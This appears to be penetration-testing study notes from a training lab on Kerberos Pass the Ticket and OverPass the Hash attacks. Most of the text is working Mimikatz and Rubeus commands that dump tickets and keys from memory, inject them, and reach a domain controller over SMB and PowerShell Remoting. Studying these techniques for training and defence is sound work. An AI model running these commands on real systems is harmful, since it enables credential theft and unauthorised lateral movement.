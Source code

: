 In this attack, we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.
# Kerberos Protocol Refresher
- The Kerberos authentication system is ticket-based.
- The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.
# Pass the Ticket (PtT) Attack
We need a valid Kerberos ticket to perform a `Pass the Ticket (PtT)`. It can be:
- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.
## Harvesting Kerberos Tickets from Windows
#### Mimikatz - Export Tickets
```cmd
mimikatz.exe
```
```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
```cmd
dir *.kirbi
```
#### Rubeus - Export Tickets
```cmd
Rubeus.exe dump /nowrap
```
**Note:** To collect all tickets we need to execute Mimikatz or Rubeus as an administrator.
## Pass the Key or OverPass the Hash
#### Mimikatz - Extract Kerberos Keys
```cmd
mimikatz.exe
```
```cmd
privilege::debug
sekurlsa::ekeys
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.
#### Mimikatz - Pass the Key or OverPass the Hash
```cmd
mimikatz.exe
```
```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
#### Rubeus - Pass the Key or OverPass the Hash
```cmd
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```
## Pass the Ticket (PtT)
With `Rubeus`, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.
### Rubeus Pass the Ticket
```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
#### Rubeus - Pass the Ticket
```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi

dir \\DC01.inlanefreight.htb\c$

\\dc01.inlanefreight.htb\c$
```
#### Convert .kirbi to Base64 Format
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
#### Pass the Ticket - Base64 Format
```cmd
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```
### Mimikatz - Pass the Ticket
```cmd
mimikatz.exe 
```
```cmd
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
mimikatz # exit
```

```cmd
dir \\DC01.inlanefreight.htb\c$

\\dc01.inlanefreight.htb\c$
```
## Pass The Ticket with PowerShell Remoting (Windows)
- [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer. 
- Administrators often use PowerShell Remoting to manage remote computers on the network. 
- Enabling PowerShell Remoting creates both HTTP and HTTPS listeners. 
- The listener runs on standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.
### Mimikatz - PowerShell Remoting with Pass the Ticket
```cmd
mimikatz.exe
```
```cmd
mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
mimikatz # exit
```
```cmd
powershell
```
```powershell
Enter-PSSession -ComputerName DC01
whoami
hostname
```
### Rubeus - PowerShell Remoting with Pass the Ticket
#### Create a Sacrificial Process with Rubeus
```cmd
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
#### Rubeus - Pass the Ticket for Lateral Movement
```cmd
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```
```cmd
powershell
```
```powershell
Enter-PSSession -ComputerName DC01
whoami
hostname
```


